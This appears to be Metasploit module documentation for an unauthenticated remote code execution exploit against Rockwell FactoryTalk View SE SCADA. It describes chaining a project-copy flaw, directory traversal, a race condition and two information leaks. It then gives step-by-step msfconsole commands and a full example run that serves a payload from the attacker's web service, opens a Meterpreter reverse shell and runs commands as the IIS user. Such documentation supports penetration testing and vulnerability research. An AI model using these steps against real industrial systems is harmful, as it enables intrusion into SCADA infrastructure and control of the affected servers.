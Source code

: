 ## Vulnerable Application
This exploit requires Rockwell FactoryTalk View SE SCADA, which is only accessible to Rockwell customers.
It module exploits a series of vulnerabilities to achieve unauthenticated remote code execution on the product.
The default configuration is exploitable by an unauthenticated attacker, and the exploit runs as the IIS user on the Windows server.
The attack relies on the chaining of five separate vulnerabilities. The first vulnerability is an unauthenticated project copy request, the second is a directory traversal, and the third is a race condition. In order to achieve full remote code execution on all targets, two information leak vulnerabilities are also abused.
This exploit was used by the Flashback team (Pedro Ribeiro + Radek Domanski) in Pwn2Own Miami 2020 to win the EWS category.
          
## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/scada/rockwell_factorytalk_rce`
3. Do: `set rhost [RHOST]`
4. Do: `set lhost [LHOST]`
5. Do: `set srvhost [LHOST]`
6. Do: `run`
7. You should get a shell.

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Version and OS

This exploit was only tested on version 11.00.00.230. According to a Google search, it should work for all versions going back as far as 2008.

### Example run

```
msf6 > use exploit/windows/scada/rockwell
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/scada/rockwell) > set rhost 192.168.70.128
rhost => 192.168.70.128
msf6 exploit(windows/scada/rockwell) > set lhost 192.168.70.1
lhost => 192.168.70.1
msf6 exploit(windows/scada/rockwell) > set srvhost 192.168.70.1
srvhost => 192.168.70.1
msf6 exploit(windows/scada/rockwell) > check

[*] 192.168.70.128:80 - Detected version 11.00.00.230
[*] 192.168.70.128:80 - The target appears to be vulnerable.
msf6 exploit(windows/scada/rockwell) > run

[*] Started reverse TCP handler on 192.168.70.1:4444
[*] 192.168.70.128:80 - Listing projects on the server
[*] 192.168.70.128:80 - Received list of projects from the server
[*] 192.168.70.128:80 - Found project path: C:\Users\Public\Documents\RSView Enterprise\SE\HMI Projects\FTViewDemo_HMI
[+] 192.168.70.128:80 - Got a path to drop our shell: C:\Users\Public\Documents\RSView Enterprise\SE\HMI Projects\
[*] 192.168.70.128:80 - Starting up our web service on http://192.168.70.1:8080 ...
[*] Using URL: http://192.168.70.1:8080/RSViewSE/
[*] 192.168.70.128:80 - Starting racer thread, let's win this race condition!
[*] 192.168.70.128:80 - Initiating project copy request...
[+] 192.168.70.128:80 - Target connected, sending file path with dir traversal
[+] 192.168.70.128:80 - Target connected, sending payload
[+] 192.168.70.128:80 - We've won the race condition, shell incoming!
[*] Sending stage (175174 bytes) to 192.168.70.128
[*] Meterpreter session 1 opened (192.168.70.1:4444 -> 192.168.70.128:49894) at 2020-10-12 14:27:48 +0700
[*] Server stopped.

meterpreter > shell
Process 12008 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18362.449]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\SysWOW64\inetsrv>whoami
whoami
iis apppool\defaultapppool

C:\WINDOWS\SysWOW64\inetsrv>
```
